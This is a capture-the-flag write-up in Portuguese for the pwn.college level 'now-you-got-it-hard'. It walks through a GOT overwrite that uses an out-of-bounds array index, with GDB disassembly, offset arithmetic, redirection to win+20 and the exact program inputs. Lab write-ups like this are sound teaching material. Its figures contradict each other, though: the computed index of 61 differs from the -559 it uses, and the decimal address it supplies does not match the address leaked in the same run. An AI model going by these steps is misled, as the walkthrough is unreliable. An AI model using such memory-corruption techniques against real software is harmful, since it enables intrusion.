






# pwn.college — Now You GOT It Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** GOT overwrite · Array index out-of-bounds (escrita) · PLT/GOT hijacking · Análise de assembly para localização do array · Offset de entrada em função para evitar recursão

---

## Descrição do Desafio

O desafio `now-you-got-it-hard` é a versão sem informações do `now-you-got-it-easy`. A vulnerabilidade central é idêntica — sobrescrever uma entrada na GOT para redirecionar o fluxo de execução para `win()` — mas desta vez **o binário não informa o endereço do array**. O endereço de `win()` ainda é fornecido como FREE LEAK. Toda a análise do layout de memória precisa ser feita via GDB.

Além disso, o binário possui proteções adicionais em relação à versão easy:



```
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

O **Partial RELRO** é relevante aqui: com Full RELRO, a GOT seria marcada como somente leitura após a resolução dos símbolos, impedindo a sobrescrita. Com Partial RELRO, a GOT permanece gravável durante toda a execução — a vulnerabilidade continua explorável.

---

## Reconhecimento Inicial — Localizando o Array via GDB

Como o binário não imprime o endereço do array, foi necessário analisar o disassembly de `challenge` para identificar onde o array é construído na memória.



A instrução central de escrita no array é:

```asm
lea  rcx, [rip+0x2d74]    # 0x55e6cfbff208 <bssdata+8>
mov  QWORD PTR [rcx+rdx*1], rax
```

O endereço base do array está no comentário ao lado do `lea`: `0x55e6cfbff208` (`<bssdata+8>`). Esse é o endereço do índice 0 do array exposto ao usuário — equivalente ao que o binário easy imprimia diretamente.

---

## Identificando a Função Alvo para Sobrescrever

Com o endereço do array em mãos, o próximo passo foi determinar qual entrada da GOT sobrescrever. Diferente da versão easy, onde havia `putchar` como alternativa segura, aqui a análise do fluxo de `challenge` revelou que a única função chamada **após** o input de substituição é `puts`.

Com um breakpoint antes do `call puts@plt` e `si` para entrar no stub, o comentário no `jmp` revela imediatamente o endereço de `puts@got.plt`:



```asm
=> puts@plt+0:   endbr64
   puts@plt+4:   bnd jmp QWORD PTR [rip+0x3f05]   # 0x55e6cfbff020 <puts@got.plt>
   puts@plt+11:  nop DWORD PTR [rax+rax*1+0x0]
```

O endereço de `puts@got.plt` é `0x55e6cfbff020`.

### Calculando o offset

```
array[0]     = 0x55e6cfbff208
puts@got.plt = 0x55e6cfbff020

diferença    = 0x55e6cfbff208 - 0x55e6cfbff020 = 0x1E8 = 488 bytes
índice       = 488 / 8 = 61... 
```

Mas como `puts@got.plt` está em endereço **menor** que o array, o índice é **negativo**. Usando os endereços reais da execução do exploit (que mudam por PIE/ASLR, mas o offset é fixo):

```
diferença / 8 = 559 → índice = -559
```

---

## O Problema — `win()` Também Chama `puts`

Sobrescrever `puts@got.plt` com o endereço de `win()` reproduz exatamente o mesmo problema da primeira tentativa no nível easy: `win()` internamente chama `puts()`, e com a GOT corrompida essa chamada lê `puts@got.plt` — que agora aponta para `win()` — executando-a novamente. O resultado é uma recursão que acumula stack frames até estourar a stack com Segmentation Fault.

Inspecionando o disassembly de `win()`:



```asm
win+0:   endbr64
win+4:   push   rbp
win+5:   mov    rbp, rsp
win+8:   lea    rdi, [rip+0xdb2]    # string de abertura
win+15:  call   puts@plt            ← puts logo no início
win+20:  mov    esi, 0x0
win+25:  lea    rdi, [rip+0xdbd]    # caminho do arquivo de flag
win+32:  mov    eax, 0x0
win+37:  call   open@plt
...
```

O `puts` em `win+15` é apenas uma mensagem introdutória — não é essencial para a leitura e impressão da flag. Se pularmos esse `puts` inicial e entrarmos em `win()` a partir de `win+20`, o programa abre o arquivo de flag e o imprime normalmente.

---

## A Solução — Pular para `win+20`

Em vez de sobrescrever `puts@got.plt` com o endereço exato de `win()`, sobrescrevemos com `win() + 20` — pulando a primeira chamada a `puts` dentro de `win()`.

O endereço de `win()` é fornecido pelo binário a cada execução (FREE LEAK). Basta somar 20 ao valor decimal:

```
win()      = 0x55e6cfbfc247
win() + 20 = 0x55e6cfbfc247 + 20 = 0x55e6cfbfc25b
           = 107494207566427 (decimal)
```

A entrada do programa espera `%lld` (long long decimal) — confirmado via GDB no nível easy — então o valor deve ser fornecido em decimal.

---

## Por que a Flag é Impressa Infinitamente?

Após a sobrescrita, `win()` executa corretamente: abre o arquivo de flag e a imprime. Porém, ao final de `win()` há mais uma chamada a `puts` — que, com a GOT ainda corrompida, redireciona novamente para `win+20`, que executa `win()` mais uma vez, e assim por diante.



A razão pela qual isso **não** causa Segmentation Fault imediato é que estamos entrando em `win+20`, que começa com `call open@plt` — uma chamada de função normal que empilha um stack frame. Ao retornar de `open`, `win()` continua sua execução, chama `puts` (que redireciona para `win+20`), e o ciclo recomeça. Como cada iteração **retorna normalmente** antes de chamar a próxima, a stack não acumula frames indefinidamente — diferente da recursão direta onde cada chamada a `win+0` chamaria `puts` antes de retornar, empilhando frames sem parar. O programa fica em loop, mas um loop que entra e sai limpo de cada chamada.

---

## Executando o Exploit

Os inputs fornecidos ao programa (fora do GDB, pois o debugger dropa permissões):



```
FREE LEAK: win is located at: 0x61c3f20eb247

Which number would you like to view? -559
Your hacker number is 61c3f20ea040
What number would you like to replace it with? 107494207566427
```

1. **Índice:** `-559` → acessa `puts@got.plt`
2. **Valor de substituição:** endereço de `win()+20` em decimal → sobrescreve `puts@got.plt`

---

## Resumo do Fluxo de Exploração

```
1. checksec → Partial RELRO → GOT gravável → GOT overwrite viável
2. GDB → disas challenge → lea rcx, [rip+0x2d74] → array[0] em bssdata+8
3. GDB → break em call puts@plt → si → disas puts@plt
   → comentário no jmp revela puts@got.plt
4. offset: (array - puts@got) / 8 = 559 → índice = -559
5. Único candidato para sobrescrita: puts (única função chamada após o input)
6. Problema: win() também chama puts → recursão com win+0 → SIGSEGV
7. Solução: disas win → puts em win+15 (apenas mensagem) → pular para win+20
8. win()+20 em decimal = 107494207566427
9. Rodar fora do GDB → índice -559 → sobrescrever puts@got com win+20
10. Flag impressa em loop infinito (puts no final de win redireciona para win+20 novamente)
```

---

## Comparação entre Easy e Hard

| | now-you-got-it-easy | now-you-got-it-hard |
|---|---|---|
| Endereço do array fornecido | ✅ Sim | ❌ Não (GDB: `lea` no disassembly) |
| Endereço de `win()` fornecido | ✅ Sim (FREE LEAK) | ✅ Sim (FREE LEAK) |
| Função alvo na GOT | `putchar` (não usada por `win`) | `puts` (única opção disponível) |
| Problema com a função alvo | Nenhum | `win()` também chama `puts` → recursão |
| Solução para o problema | — | Entrar em `win+20` (pular o `puts` inicial) |
| Resultado | Flag impressa uma vez | Flag impressa em loop infinito |
| RELRO | Partial | Partial |
| PIE | ✅ Presente | ✅ Presente |
| Canary | ❌ Não | ✅ Sim (não impacta o exploit) |
